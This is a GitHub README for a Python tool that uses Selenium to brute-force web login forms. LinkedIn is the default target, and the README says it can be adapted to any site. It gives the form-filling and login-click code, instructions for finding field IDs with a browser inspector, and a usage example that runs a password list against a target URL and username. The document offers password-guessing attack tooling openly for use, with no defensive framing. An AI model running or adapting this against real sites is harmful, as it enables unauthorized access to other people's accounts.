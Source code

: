 # Selenium-Brute-Force
A simple python script for doing brute-force attack using selenium.

## Help
- The default script is useful for Linkedin, but it works for everything. For other platforms, it needs to extract username id, password id, and login button class using browser inspector.

![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/file/help.jpg)<br />

put them in code.
```python
username = driver.find_element_by_id("username")		
username.clear()
print("username: "+curuser)
username.send_keys(curuser)		
password = driver.find_element_by_id("password")
password.clear()
print("password: "+passw+"\n")
password.send_keys(passw)			
driver.find_element_by_class_name('login__form_action_container').click()
```
- check chromedriver version (87.0) with your chrome, if there is an incompatibility, use appropriate version here <br />
https://chromedriver.chromium.org/downloads
## Usage
To get a list of basic options and switches use:
```python
selenium-brute.py -h
```
sample:
```
selenium-brute.py -t https://target.com -u admin -p pass.txt
```
![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/file/video.gif)

